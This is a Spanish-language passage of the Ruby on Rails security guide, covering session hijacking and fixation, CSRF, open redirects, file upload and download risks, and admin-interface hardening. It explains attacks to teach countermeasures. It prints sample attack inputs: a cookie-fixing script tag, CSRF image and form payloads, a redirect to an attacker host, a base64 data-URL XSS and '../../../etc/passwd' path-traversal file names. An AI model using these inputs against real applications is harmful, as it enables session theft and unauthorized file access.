

1 Introduction
Los marcos de aplicaciones web se crean para ayudar a los desarrolladores a crear aplicaciones web. Algunos de ellos también le ayudan a proteger la aplicación web. De hecho, un marco no es más seguro que otro: si lo usa correctamente, podrá crear aplicaciones seguras con muchos marcos. Ruby on Rails tiene algunos métodos de ayuda inteligentes, por ejemplo contra la inyección de SQL, por lo que esto no es un problema.
En general, no existe la seguridad plug-n-play. La seguridad depende de las personas que utilizan el marco y, a veces, del método de desarrollo. Y depende de todas las capas del entorno de una aplicación web: el almacenamiento back-end, el servidor web y la propia aplicación web (y posiblemente otras capas o aplicaciones).
El Grupo Gartner, sin embargo, estima que el 75% de los ataques se producen en la capa de aplicación web y descubrió que "de 300 sitios auditados, el 97% son vulnerables a los ataques". Esto se debe a que las aplicaciones web son relativamente fáciles de atacar, ya que son sencillas de entender y manipular, incluso para un lego.
Las amenazas contra las aplicaciones web incluyen el secuestro de cuentas de usuario, eludir el control de acceso, leer o modificar datos confidenciales o presentar contenido fraudulento. O un atacante podría instalar un programa caballo de Troya o un software de envío de correo electrónico no solicitado, tener como objetivo el enriquecimiento financiero o causar daños a la marca modificando los recursos de la empresa. Para prevenir ataques, minimizar su impacto y eliminar los puntos de ataque, en primer lugar, debe comprender completamente los métodos de ataque para encontrar las contramedidas correctas. Eso es a lo que apunta esta guía.
Para desarrollar aplicaciones web seguras, debes mantenerte actualizado en todas las capas y conocer a tus enemigos. Para mantenerse actualizado, suscríbase a las listas de correo de seguridad, lea blogs de seguridad y convierta las actualizaciones y los controles de seguridad en un hábito (consulte el capítulo Additional Resources). Se hace manualmente porque así es como se encuentran los desagradables problemas lógicos de seguridad.
2 Sessions
Este capítulo describe algunos ataques específicos relacionados con las sesiones y las medidas de seguridad para proteger los datos de su sesión.
2.1 What are Sessions?
Las sesiones permiten que la aplicación mantenga un estado específico del usuario, mientras los usuarios interactúan con la aplicación. Por ejemplo, las sesiones permiten que los usuarios se autentiquen una vez y permanecen conectados para solicitudes futuras.
La mayoría de las aplicaciones necesitan realizar un seguimiento del estado de los usuarios que interactúan con la aplicación. Este podría ser el contenido de una cesta de la compra o la identificación de usuario del usuario actualmente conectado. Este tipo de estado específico del usuario se puede almacenar en la sesión.
Rails proporciona un objeto de sesión para cada usuario que accede a la aplicación. Si el usuario ya tiene una sesión activa, Rails usa la sesión existente. De lo contrario, se crea una nueva sesión.
Lea más sobre las sesiones y cómo usarlas en Action Controller Overview Guide.
2.2 Session Hijacking
Robar la identificación de sesión de un usuario permite que un atacante use la aplicación web en el nombre de la víctima.
Muchas aplicaciones web tienen un sistema de autenticación: un usuario proporciona un nombre de usuario y una contraseña, la aplicación web los comprueba y almacena la identificación de usuario correspondiente en el hash de la sesión. A partir de ahora, la sesión es válida. En cada solicitud, la aplicación cargará al usuario, identificado por el ID de usuario en la sesión, sin necesidad de una nueva autenticación. El ID de sesión en la cookie identifica la sesión.
Por lo tanto, la cookie sirve como autenticación temporal para la aplicación web. Cualquiera que se apodere de una cookie de otra persona, puede utilizar la aplicación web como este usuario, con posibles consecuencias graves. Estas son algunas formas de secuestrar una sesión y sus contramedidas:
-
Olfatear la cookie en una red insegura. Una LAN inalámbrica puede ser un ejemplo de una red de este tipo. En una LAN inalámbrica sin cifrar, es especialmente fácil escuchar el tráfico de todos los clientes conectados. Para el creador de aplicaciones web, esto significa proporcionar una conexión segura a través de SSL. En Rails 3.1 y posteriores, esto se puede lograr forzando siempre la conexión SSL en el archivo de configuración de su aplicación:
config.force_ssl = true La mayoría de las personas no borran las cookies después de trabajar en una terminal pública. Entonces, si el último usuario no se desconectó de una aplicación web, podrá usarla como este usuario. Proporcione al usuario un botón de cierre de sesión en la aplicación web y hágalo destacado.
Muchas hazañas de cross-site scripting (XSS) tienen como objetivo obtener la cookie del usuario. Leerá more about XSS más adelante.
En lugar de robar una cookie desconocida para el atacante, corrigen el identificador de sesión de un usuario (en la cookie) que conocen. Lea más sobre esta llamada fijación de sesión más adelante.
El principal objetivo de la mayoría de los atacantes es ganar dinero. Los precios clandestinos para cuentas bancarias robadas varían entre 0.5% -10% del saldo de la cuenta, $ 0.5- $ 30 para números de tarjetas de crédito ($ 20- $ 60 con detalles completos), $ 0.1- $ 1.5 para identidades (Nombre, SSN y DOB), $ 20- $ 50 para cuentas de minoristas y $ 6 a $ 10 para cuentas de proveedores de servicios en la nube, según el Symantec Internet Security Threat Report (2017).
2.3 Session Storage
Rails usa ActionDispatch::Session::CookieStore como el almacenamiento de sesión predeterminado.
Obtenga más información sobre otros almacenamientos de sesiones en la Action Controller Overview Guide.
Rails CookieStore guarda el hash de la sesión en una cookie en el lado del cliente.
El servidor recupera el hash de sesión de la cookie y
elimina la necesidad de un ID de sesión. Eso aumentará enormemente la
velocidad de la aplicación, pero es una opción de almacenamiento controvertida y
tienes que pensar en las implicaciones de seguridad y almacenamiento
limitaciones de la misma:
Las cookies tienen un límite de tamaño de 4kB. Utilice cookies solo para datos que sean relevantes para la sesión.
Las cookies se almacenan en el lado del cliente. El cliente puede conservar el contenido de las cookies incluso para las cookies caducadas. El cliente puede copiar cookies a otras máquinas. Evite almacenar datos sensibles en cookies.
Las cookies son temporales por naturaleza. El servidor puede establecer la hora de vencimiento de la cookie, pero el cliente puede eliminar la cookie y su contenido antes de eso. Conserve todos los datos que son de naturaleza más permanente en el lado del servidor.
Las cookies de sesión no se invalidan y pueden ser reutilizadas maliciosamente. Puede ser una buena idea que su aplicación invalide las cookies de sesión utilizando una marca de tiempo almacenada.
Rails cifra las cookies de forma predeterminada. El cliente no puede leer ni editar el contenido de la cookie sin romper el cifrado. Si cuida adecuadamente sus secretos, puede considerar que sus cookies están generalmente protegidas.
La CookieStore utiliza el
encrypted
tarro de cookies para proporcionar una ubicación segura y cifrada para almacenar la sesión de
datos. Las sesiones basadas en cookies proporcionan tanto integridad como
confidencialidad de su contenido. La clave de cifrado, así como la
clave de verificación utilizada para
signed
cookies, se deriva del valor de configuración secret_key_base.
Los secretos deben ser largos y aleatorios. Utilice bin /rails secret para obtener nuevos secretos únicos.
Obtenga más información sobre managing credentials later in this guide
También es importante utilizar diferentes valores de sal para cifrado y cookies firmadas. Usando el mismo valor para diferentes configuraciones de sal pueden llevar a que se utilice la misma clave derivada para diferentes características de seguridad que a la vez pueden debilitar la fuerza de la clave.
En las aplicaciones de prueba y desarrollo, obtenga una secret_key_base derivada del nombre de la aplicación. Otros entornos deben usar una clave aleatoria presente en config/credentials.yml.enc, que se muestra aquí en su estado descifrado:
secret_key_base: 492f...
Si los secretos de su aplicación pueden haber sido expuestos, considere cambiarlos. Cambiar secret_key_base expirará las sesiones activas actualmente.
2.4 Rotating Encrypted and Signed Cookies Configurations
La rotación es ideal para cambiar la configuración de las cookies y garantizar que las cookies antiguas no sean inválidas de inmediato. Entonces, sus usuarios tienen la oportunidad de visitar su sitio, obtener su cookie leída con una configuración anterior y reescribirla con el nuevo cambio. La rotación se puede quitar una vez que se sienta lo suficientemente cómodo que los usuarios han tenido la oportunidad de actualizar sus cookies.
Es posible rotar los cifrados y resúmenes utilizados para las cookies encriptadas y firmadas.
Por ejemplo, para cambiar el resumen utilizado para las cookies firmadas de SHA1 a SHA256, primero asignaría el nuevo valor de configuración:
Rails.application.config.action_dispatch.signed_cookie_digest = "SHA256"
Ahora agregue una rotación para el resumen SHA1 antiguo para que las cookies existentes sean actualizadas sin problemas al nuevo resumen SHA256.
Rails.application.config.action_dispatch.cookies_rotations.tap do |cookies|
cookies.rotate :signed, digest: "SHA1"
end
Luego, cualquier cookie firmada por escrito será digerida con SHA256. Galletas viejas que se escribieron con SHA1 aún se pueden leer y, si se accede a ellas, se escribirán con el nuevo resumen para que se actualicen y no sean inválidos cuando se elimine la rotación.
Una vez que los usuarios con cookies firmadas digeridas por SHA1 ya no deberían tener la oportunidad que reescriban sus cookies, elimine la rotación.
Si bien puede configurar tantas rotaciones como desee, no es común tener muchas rotaciones en cualquier momento.
Para obtener más detalles sobre la rotación de claves con mensajes encriptados y firmados como
así como las diversas opciones que acepta el método rotar, consulte
el
MessageEncryptor API
y la documentación
MessageVerifier API.
2.5 Replay Attacks for CookieStore Sessions
Otro tipo de ataque que debes tener en cuenta al usar CookieStore es el ataque de repetición.
Funciona así:
- Un usuario recibe créditos, la cantidad se almacena en una sesión (lo cual es una mala idea de todos modos, pero lo haremos con fines de demostración).
- El usuario compra algo.
- El nuevo valor de crédito ajustado se almacena en la sesión.
- El usuario toma la cookie del primer paso (que copió previamente) y reemplaza la cookie actual en el navegador.
- El usuario recupera su crédito original.
Incluir un nonce (un valor aleatorio) en la sesión resuelve los ataques de repetición. Un nonce es válido solo una vez, y el servidor debe realizar un seguimiento de todos los nonces válidos. Se vuelve aún más complicado si tiene varios servidores de aplicaciones. Almacenar nonces en una tabla de base de datos frustraría todo el propósito de CookieStore (evitar acceder a la base de datos).
La mejor solución contra esto no es almacenar este tipo de datos en una sesión, sino en la base de datos. En este caso, almacene el crédito en la base de datos y el log_in_user_id en la sesión.
2.6 Session Fixation
Aparte de robar el ID de sesión de un usuario, el atacante puede corregir un ID de sesión conocido por él. Esto se llama session fixation.

Este ataque se centra en corregir el ID de sesión de un usuario conocido por el atacante y en obligar al navegador del usuario a utilizar este ID. Por lo tanto, no es necesario que el atacante robe el ID de sesión posteriormente. Así es como funciona este ataque:
- El atacante crea un ID de sesión válido: cargan la página de inicio de sesión de la aplicación web donde quieren arreglar la sesión y toman el ID de sesión en la cookie de la respuesta (ver número 1 y 2 en la imagen).
- Mantienen la sesión accediendo periódicamente a la aplicación web para mantener viva una sesión que expira.
- El atacante obliga al navegador del usuario a utilizar este ID de sesión (ver el número 3 en la imagen). Como no puede cambiar una cookie de otro dominio (debido a la misma política de origen), el atacante debe ejecutar un JavaScript desde el dominio de la aplicación web de destino. Inyectar el código JavaScript en la aplicación por XSS logra este ataque. Aquí hay un ejemplo:
<script>document.cookie="_session_id=16d5b78abb28e3d6206b60f22a03c8d9 ";</script>. Lea más sobre XSS e inyección más adelante. - El atacante atrae a la víctima a la página infectada con el código JavaScript. Al ver la página, el navegador de la víctima cambiará el ID de sesión por el ID de sesión de trampa.
- Como la nueva sesión de captura no se usa, la aplicación web requerirá que el usuario se autentique.
- A partir de ahora, la víctima y el atacante utilizarán conjuntamente la aplicación web con la misma sesión: la sesión se volvió válida y la víctima no notó el ataque.
2.7 Session Fixation - Countermeasure
Una línea de código lo protegerá de la fijación de la sesión.
La contramedida más eficaz es Emitir un nuevo identificador de sesión y declarar que el antiguo no es válido después de iniciar sesión correctamente. De esa manera, un atacante no puede usar el identificador de sesión fijo. Esta es también una buena medida contra el secuestro de sesiones. A continuación se explica cómo crear una nueva sesión en Rails:
reset_session
Si usa la gem popular Devise para la administración de usuarios, automáticamente caducará las sesiones al iniciar y cerrar la sesión por usted. Si realiza la suya propia, recuerde caducar la sesión después de iniciar la sesión (cuando se crea la sesión). Esto eliminará los valores de la sesión, por lo tanto, tendrá que transferirlos a la nueva sesión.
Otra contramedida es guardar las propiedades específicas del usuario en la sesión, verificarlas cada vez que ingrese una solicitud y denegar el acceso si la información no coincide. Dichas propiedades podrían ser la dirección IP remota o el agente de usuario (el nombre del navegador web), aunque este último es menos específico del usuario. A la hora de guardar la dirección IP hay que tener en cuenta que existen proveedores de servicios de Internet o grandes organizaciones que ponen a sus usuarios detrás de proxies. Estos pueden cambiar en el transcurso de una sesión, por lo que estos usuarios no podrán usar su aplicación, o solo de manera limitada.
2.8 Session Expiry
Las sesiones que nunca caducan amplían el plazo para ataques como la falsificación de solicitudes entre sitios (CSRF), el secuestro de sesiones y la fijación de sesiones.
Una posibilidad es establecer la fecha de caducidad de la cookie con el ID de sesión. Sin embargo, el cliente puede editar las cookies que se almacenan en el navegador web para que la expiración de sesiones en el servidor sea más segura. A continuación se muestra un ejemplo de cómo expirar sesiones en una tabla de base de datos. Llame a Session.sweep("20 minutes") para caducar las sesiones que se usaron hace más de 20 minutos.
class Session < ApplicationRecord
def self.sweep(time = 1.hour)
if time.is_a?(String)
time = time.split.inject { |count, unit| count.to_i.send(unit) }
end
delete_all "updated_at < '#{time.ago.to_s(:db)}'"
end
end
La sección sobre la fijación de sesiones introdujo el problema de las sesiones mantenidas. Un atacante que mantiene una sesión cada cinco minutos puede mantener la sesión viva para siempre, aunque sus sesiones expiren. Una solución simple para esto sería agregar una columna `created_at` a la tabla de sesiones. Ahora puede eliminar sesiones creadas hace mucho tiempo. Utilice esta línea en el método de barrido anterior:
```ruby
delete_all "updated_at < '#{time.ago.to_s(:db)}' OR
created_at < '#{2.days.ago.to_s(:db)}'"
3 Cross-Site Request Forgery (CSRF)
Este método de ataque funciona al incluir un código malicioso o un enlace en una página que accede a una aplicación web que se cree que el usuario ha autenticado. Si la sesión de esa aplicación web no ha agotado el tiempo de espera, un atacante puede ejecutar comandos no autorizados.

En session chapter, aprendió que la mayoría de las aplicaciones Rails usan sesiones basadas en cookies. O almacenan el ID de sesión en la cookie y tienen un hash de sesión del lado del servidor, o todo el hash de la sesión está en el lado del cliente. En cualquier caso, el navegador enviará automáticamente la cookie en cada solicitud a un dominio, si puede encontrar una cookie para ese dominio. El punto controvertido es que si la solicitud proviene de un sitio de un dominio diferente, también enviará la cookie. Comencemos con un ejemplo:
- Bob busca en un tablero de mensajes y ve una publicación de un hacker donde hay un elemento de imagen HTML diseñado. El elemento hace referencia a un comando en la aplicación de gestión de proyectos de Bob, en lugar de un archivo de imagen:
<img src="http://www.webapp.com/project/1/destroy"> - La sesión de Bob en
www.webapp.comtodavía está viva, porque no se desconectó hace unos minutos. - Al ver la publicación, el navegador encuentra una etiqueta de imagen. Intenta cargar la imagen sospechosa de
www.webapp.com. Como se explicó anteriormente, también enviará la cookie con el ID de sesión válido. - La aplicación web en
www.webapp.comverifica la información del usuario en el hash de sesión correspondiente y destruye el proyecto con el ID 1. Luego devuelve una página de resultados que es un resultado inesperado para el navegador, por lo que no se mostrará la imagen. - Bob no se da cuenta del ataque, pero unos días después se entera de que el proyecto número uno se ha ido.
Es importante tener en cuenta que la imagen o el enlace creados reales no necesariamente tienen que estar ubicados en el dominio de la aplicación web, pueden estar en cualquier lugar: en un foro, publicación de blog o correo electrónico.
CSRF aparece muy raramente en CVE (Vulnerabilidades y Exposiciones Comunes) - menos del 0.1% en 2006 - pero realmente es un 'gigante dormido' [Grossman]. Esto está en marcado contraste con los resultados en muchos trabajos de contratos de seguridad: CSRF es un problema de seguridad importante.
3.1 CSRF Countermeasures
Primero, como lo requiere el W3C, use GET y POST apropiadamente. En segundo lugar, un token de seguridad en solicitudes que no sean GET protegerá su aplicación de CSRF.
El protocolo HTTP básicamente proporciona dos tipos principales de solicitudes: GET y POST (DELETE, PUT y PATCH deben usarse como POST). El Consorcio World Wide Web (W3C) proporciona una lista de verificación para elegir HTTP GET o POST:
Use GET si:
- La interacción es más como una pregunta (es decir, es una operación segura como una consulta, una operación de lectura o una búsqueda).
Use POST si:
- La interacción es más como una orden, o
- La interacción cambia el estado del recurso de una manera que el usuario percibiría (por ejemplo, una suscripción a un servicio), o
- El usuario es responsable de los resultados de la interacción.
Si su aplicación web es RESTful, es posible que esté acostumbrado a verbos HTTP adicionales, como PATCH, PUT o DELETE. Sin embargo, algunos navegadores web heredados no los admiten, solo GET y POST. Rails usa un campo _method oculto para manejar estos casos.
Las solicitudes POST también se pueden enviar automáticamente. En este ejemplo, el enlace www.harmless.com se muestra como destino en la barra de estado del navegador. Pero en realidad ha creado dinámicamente un nuevo formulario que envía una solicitud POST.
<a href="http://www.harmless.com/" onclick="
var f = document.createElement('form');
f.style.display = 'none';
this.parentNode.appendChild(f);
f.method = 'POST';
f.action = 'http://www.example.com/account/destroy';
f.submit();
return false;">To the harmless survey</a>
O el atacante coloca el código en el controlador de eventos onmouseover de una imagen:
<img src="http://www.harmless.com/img" width="400" height="400" onmouseover="..." />
Hay muchas otras posibilidades, como usar una etiqueta <script> para realizar una solicitud entre sitios a una URL con una respuesta JSONP o JavaScript. La respuesta es un código ejecutable que el atacante puede encontrar una forma de ejecutar, posiblemente extrayendo datos confidenciales. Para protegernos contra esta fuga de datos, debemos rechazar las etiquetas <script> entre sitios. Sin embargo, las solicitudes de Ajax obedecen la política del mismo origen del navegador (solo su propio sitio puede iniciar XmlHttpRequest) para que podamos permitirles de forma segura que devuelvan respuestas de JavaScript.
No podemos distinguir el origen de una etiqueta <script>, ya sea una etiqueta en su propio sitio o en algún otro sitio malicioso, por lo que debemos bloquear todos los <script> en todos los ámbitos, incluso si en realidad es un script seguro del mismo origen servido desde su propio sitio. En estos casos, omita explícitamente la protección CSRF en acciones que sirvan JavaScript para una etiqueta <script>.
Para protegernos contra todas las demás solicitudes falsificadas, presentamos un token de seguridad requerido que nuestro sitio conoce pero que otros sitios no conocen. Incluimos el token de seguridad en las solicitudes y lo verificamos en el servidor. Esta es una línea en el controlador de su aplicación y es la predeterminada para las aplicaciones Rails recién creadas:
protect_from_forgery with: :exception
Esto incluirá automáticamente un token de seguridad en todos los formularios y solicitudes Ajax generadas por Rails. Si el token de seguridad no coincide con lo esperado, se lanzará una excepción.
De forma predeterminada, Rails incluye un unobtrusive scripting adapter,
que agrega un encabezado llamado X-CSRF-Token con el token de seguridad en cada no GET
Llamada Ajax. Sin este encabezado, Rails no aceptará solicitudes de Ajax que no sean GET.
Cuando se usa otra biblioteca para realizar llamadas Ajax, es necesario agregar la seguridad de
token como encabezado predeterminado para las llamadas Ajax en su biblioteca. Para obtener el token, tenga
una mirada a la etiqueta <meta name='csrf-token' content='THE-TOKEN'> impresa por
<%= csrf_meta_tags %> en la vista de su aplicación.
Es común usar cookies persistentes para almacenar información del usuario, con cookies.permanent por ejemplo. En este caso, las cookies no se borrarán y la protección CSRF lista para usar no será efectiva. Si está utilizando una tienda de cookies diferente a la sesión para esta información, debe manejar qué hacer con ella usted mismo:
rescue_from ActionController::InvalidAuthenticityToken do |exception|
sign_out_user # Example method that will destroy the user cookies
end
El método anterior se puede colocar en el ApplicationController y se llamará cuando un token CSRF no esté presente o sea incorrecto en una solicitud que no sea GET.
Tenga en cuenta que las vulnerabilidades de cross-site scripting (XSS) eluden todas las protecciones CSRF. XSS le da al atacante acceso a todos los elementos de una página, para que pueda leer el token de seguridad CSRF de un formulario o enviarlo directamente. Lea more about XSS más adelante.
4 Redirection and Files
Otra clase de vulnerabilidades de seguridad rodea el uso de redireccionamiento y archivos en aplicaciones web.
4.1 Redirection
ADVERTENCIA: _La redirección en una aplicación web es una herramienta de cracker subestimada: el atacante no solo puede reenviar al usuario a un sitio web trampa, sino que también puede crear un ataque autónomo.
Siempre que se le permita al usuario pasar (partes de) la URL para la redirección, posiblemente sea vulnerable. El ataque más obvio sería redirigir a los usuarios a una aplicación web falsa que se ve y se siente exactamente como la original. Este llamado ataque de phishing funciona enviando un enlace no sospechoso en un correo electrónico a los usuarios, inyectando el enlace por XSS en la aplicación web o colocando el enlace en un sitio externo. No es sospechoso, porque el enlace comienza con la URL de la aplicación web y la URL del sitio malicioso está oculta en el parámetro de redirección: http://www.example.com/site/redirect?to=www.attacker.com . A continuación, se muestra un ejemplo de una acción heredada:
def legacy
redirect_to(params.update(action:'main'))
end
Esto redirigirá al usuario a la acción principal si intentaron acceder a una acción heredada. La intención era conservar los parámetros de URL de la acción heredada y pasarlos a la acción principal. Sin embargo, el atacante puede aprovecharlo si incluye una clave de host en la URL:
http://www.example.com/site/legacy?param1=xy¶m2=23&host=www.attacker.com
Si está al final de la URL, apenas se notará y redirige al usuario al host de attacker.com. Una contramedida simple sería incluir solo los parámetros esperados en una acción heredada (nuevamente, un enfoque de lista permitido, en lugar de eliminar parámetros inesperados). Y si redirige a una URL, compruébalo con una lista permitida o una expresión regular.
4.1.1 Self-contained XSS
Otro ataque de redirección y XSS autónomo funciona en Firefox y Opera mediante el uso del protocolo de datos. Este protocolo muestra su contenido directamente en el navegador y puede ser cualquier cosa, desde HTML o JavaScript hasta imágenes completas:
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
Este ejemplo es un JavaScript codificado en Base64 que muestra un cuadro de mensaje simple. En una URL de redirección, un atacante podría redirigir a esta URL con el código malicioso en ella. Como contramedida, no permita que el usuario proporcione (partes de) la URL a la que será redirigido.
4.2 File Uploads
NOTA: _Asegúrese de que las cargas de archivos no sobrescriban los archivos importantes y procese los archivos multimedia de forma asincrónica.
Muchas aplicaciones web permiten a los usuarios cargar archivos. Los nombres de archivo, que el usuario puede elegir (en parte), siempre deben filtrarse ya que un atacante podría usar un nombre de archivo malicioso para sobrescribir cualquier archivo en el servidor. Si almacena cargas de archivos en / var / www / uploads, y el usuario ingresa un nombre de archivo como "../../../etc/passwd", puede sobrescribir un archivo importante. Por supuesto, el intérprete de Ruby necesitaría los permisos adecuados para hacerlo, una razón más para ejecutar servidores web, servidores de bases de datos y otros programas como un usuario Unix con menos privilegios.
Al filtrar los nombres de los archivos de entrada del usuario, no intente eliminar partes maliciosas. Piense en una situación en la que la aplicación web elimina todo "../" en un nombre de archivo y un atacante usa una cadena como ".... //" - el resultado será "../". Es mejor utilizar un enfoque de lista permitida, que comprueba la validez de un nombre de archivo con un conjunto de caracteres aceptados. Esto se opone a un enfoque de lista restringida que intenta eliminar los caracteres no permitidos. En caso de que no sea un nombre de archivo válido, rechácelo (o reemplace los caracteres no aceptados), pero no los elimine. Aquí está el desinfectante de nombre de archivo del attachment_fu plugin:
def sanitize_filename(filename)
filename.strip.tap do |name|
# NOTE: File.basename doesn't work right with Windows paths on Unix
# get only the filename, not the whole path
name.sub! /\A.*(\\|\/)/, ''
# Finally, replace all non alphanumeric, underscore
# or periods with underscore
name.gsub! /[^\w\.\-]/, '_'
end
end
Una desventaja significativa del procesamiento síncrono de cargas de archivos (como el complemento attach_fu puede hacer con las imágenes) es su vulnerabilidad a los ataques de denegación de servicio. Un atacante puede iniciar de forma síncrona la carga de archivos de imagen desde muchas computadoras, lo que aumenta la carga del servidor y, finalmente, puede bloquear o detener el servidor.
La mejor solución para esto es procesar archivos multimedia de forma asincrónica: guarde el archivo multimedia y programe una solicitud de procesamiento en la base de datos. Un segundo proceso se encargará del procesamiento del archivo en segundo plano.
4.3 Executable Code in File Uploads
El código fuente de los archivos cargados puede ejecutarse cuando se coloca en directorios específicos. No coloque cargas de archivos en el directorio/public de Rails si es el directorio de inicio de Apache.
El popular servidor web Apache tiene una opción llamada DocumentRoot. Este es el directorio de inicio del sitio web, todo en este árbol de directorios será servido por el servidor web. Si hay archivos con una determinada extensión de nombre de archivo, el código que contiene se ejecutará cuando se solicite (puede requerir que se establezcan algunas opciones). Ejemplos de esto son archivos PHP y CGI. Ahora piense en una situación en la que un atacante carga un archivo "file.cgi" con código, que se ejecutará cuando alguien descargue el archivo.
Si su Apache DocumentRoot apunta al directorio/public de Rails, no coloque cargas de archivos en él, almacene los archivos al menos un nivel hacia arriba.
4.4 File Downloads
Asegúrese de que los usuarios no puedan descargar archivos arbitrarios
Del mismo modo que debe filtrar los nombres de los archivos para las cargas, debe hacerlo para las descargas. El método send_file() envía archivos desde el servidor al cliente. Si utiliza un nombre de archivo, que el usuario ingresó, sin filtrar, se puede descargar cualquier archivo:
send_file('/var/www/uploads/' + params[:filename])
Simplemente pase un nombre de archivo como "../../../etc/passwd" para descargar la información de inicio de sesión del servidor. Una solución simple contra esto es comprobar que el archivo solicitado esté en el directorio esperado:
basename = File.expand_path('../../files', __dir__)
filename = File.expand_path(File.join(basename, @file.public_filename))
raise if basename !=
File.expand_path(File.join(File.dirname(filename), '../../../'))
send_file filename, disposition: 'inline'
Otro enfoque (adicional) es almacenar los nombres de los archivos en la base de datos y nombrar los archivos en el disco después de los identificadores de la base de datos. Este también es un buen enfoque para evitar la posible ejecución de código en un archivo cargado. El complemento attach_fu hace esto de manera similar.
5 Intranet and Admin Security
Las interfaces de administración e intranet son objetivos de ataque populares porque permiten el acceso privilegiado. Aunque esto requeriría varias medidas de seguridad adicionales, en el mundo real ocurre lo contrario.
En 2007, apareció el primer troyano hecho a medida que robó información de una intranet, a saber, el sitio web "Monster para empleadores" de Monster.com, una aplicación web de contratación en línea. Los troyanos hechos a medida son muy raros, hasta ahora, y el riesgo es bastante bajo, pero ciertamente es una posibilidad y un ejemplo de cómo la seguridad del host del cliente también es importante. Sin embargo, la mayor amenaza para las aplicaciones de administración e intranet son XSS y CSRF.
XSS Si su aplicación vuelve a mostrar la entrada de un usuario malintencionado desde la extranet, la aplicación será vulnerable a XSS. Nombres de usuario, comentarios, informes de spam, direcciones de pedidos son solo algunos ejemplos poco comunes, donde puede haber XSS.
Tener un solo lugar en la interfaz de administración o Intranet, donde la entrada no se ha desinfectado, hace que toda la aplicación sea vulnerable. Las posibles vulnerabilidades incluyen el robo de la cookie del administrador privilegiado, la inyección de un iframe para robar la contraseña del administrador o la instalación de software malicioso a través de los agujeros de seguridad del navegador para hacerse cargo de la computadora del administrador.
Consulte la sección de Inyección para conocer las contramedidas contra XSS.
CSRF Falsificación de solicitudes entre sitios (CSRF), también conocida como Falsificación de referencias entre sitios (XSRF), es un método de ataque gigantesco que permite al atacante hacer todo lo que el administrador o el usuario de la intranet puede hacer. Como ya ha visto anteriormente cómo funciona CSRF, aquí hay algunos ejemplos de lo que los atacantes pueden hacer en la intranet o la interfaz de administración.
Un ejemplo del mundo real es un router reconfiguration by CSRF. Los atacantes enviaron un correo electrónico malicioso, con CSRF, a los usuarios mexicanos. El correo electrónico afirmó que había una tarjeta electrónica esperando al usuario, pero también contenía una etiqueta de imagen que resultó en una solicitud HTTP-GET para reconfigurar el enrutador del usuario (que es un modelo popular en México). La solicitud cambió la configuración de DNS para que las solicitudes a un sitio bancario con sede en México se asignaran al sitio del atacante. Todos los que accedieron al sitio bancario a través de ese enrutador vieron el sitio web falso del atacante y les robaron sus credenciales.
Otro ejemplo cambió la dirección de correo electrónico y la contraseña de Google Adsense. Si la víctima inició sesión en Google Adsense, la interfaz de administración de las campañas publicitarias de Google, un atacante podría cambiar las credenciales de la víctima.
Otro ataque popular es enviar spam a su aplicación web, blog o foro para propagar XSS malicioso. Por supuesto, el atacante debe conocer la estructura de la URL, pero la mayoría de las URL de Rails son bastante sencillas o serán fáciles de averiguar, si se trata de la interfaz de administración de una aplicación de código abierto. El atacante puede incluso hacer 1.000 intentos de suerte con solo incluir etiquetas IMG maliciosas que prueban todas las combinaciones posibles.
Para contramedidas contra CSRF en interfaces de administración y aplicaciones de Intranet, consulte las contramedidas en la sección CSRF.
5.1 Additional Precautions
La interfaz de administración común funciona así: se encuentra en www.example.com/admin, solo se puede acceder a ella si la marca de administrador está configurada en el modelo de usuario, vuelve a mostrar la entrada del usuario y permite al administrador eliminar/agregar/editar lo que sea datos deseados. Aquí hay algunas ideas sobre esto:
Es muy importante pensar en el peor de los casos: ¿Qué pasa si alguien realmente se apodera de sus cookies o credenciales de usuario? Podría introducir roles para la interfaz de administración para limitar las posibilidades del atacante. O qué tal las credenciales de inicio de sesión especiales para la interfaz de administración, distintas de las que se utilizan para la parte pública de la aplicación. ¿O una contraseña especial para acciones muy graves?
¿El administrador realmente tiene que acceder a la interfaz desde cualquier lugar del mundo? Piense en limitar el inicio de sesión a un grupo de direcciones IP de origen. Examine request.remote_ip para conocer la dirección IP del usuario. Esto no es a prueba de balas, sino una gran barrera. Sin embargo, recuerde que podría haber un proxy en uso.
Ponga la interfaz de administración en un subdominio especial como admin.application.com y conviértalo en una aplicación separada con su propia administración de usuarios. Esto hace que robar una cookie de administrador del dominio habitual, www.application.com, sea imposible. Esto se debe a la misma política de origen en su navegador: una secuencia de comandos inyectada (XSS) en www.application.com puede no leer la cookie para admin.application.com y viceversa.
6 User Management
_Casi todas las aplicaciones web tienen que lidiar con la autorización y la autenticación. En lugar de lanzar el suyo propio, es recomendable utilizar complementos comunes. Pero manténgalos actualizados también. Algunas precauciones adicionales pueden hacer que su aplicación sea aún más segura.
Hay varios complementos de autenticación disponibles para Rails. Buenos, como los populares devise y authlogic, almacene solo contraseñas cifradas, no contraseñas de texto sin formato. En Rails 3.1 puedes usar el método incorporado has_secure_password que tiene características similares.
Cada nuevo usuario recibe un código de activación para activar su cuenta cuando recibe un correo electrónico con un enlace. Después de activar la cuenta, las columnas de código de activación se establecerán en NULL en la base de datos. Si alguien solicita una URL como esta, iniciará sesión como el primer usuario activado encontrado en la base de datos (y es probable que este sea el administrador):
http://localhost:3006/user/activate
http://localhost:3006/user/activate?id=
Esto es posible porque en algunos servidores, de esta manera el parámetro id, como en params[:id], sería nulo. Sin embargo, aquí está el buscador de la acción de activación:
User.find_by_activation_code(params[:id])
Si el parámetro era nulo, la consulta SQL resultante será
SELECT * FROM users WHERE (users.activation_code IS NULL) LIMIT 1
Y así encontró al primer usuario en la base de datos, lo devolvió e inició sesión. Puede obtener más información al respecto en esta publicación de blog. Es recomendable actualizar sus complementos de vez en cuando. Además, puede revisar su aplicación para encontrar más fallas como esta.
6.1 Brute-Forcing Accounts
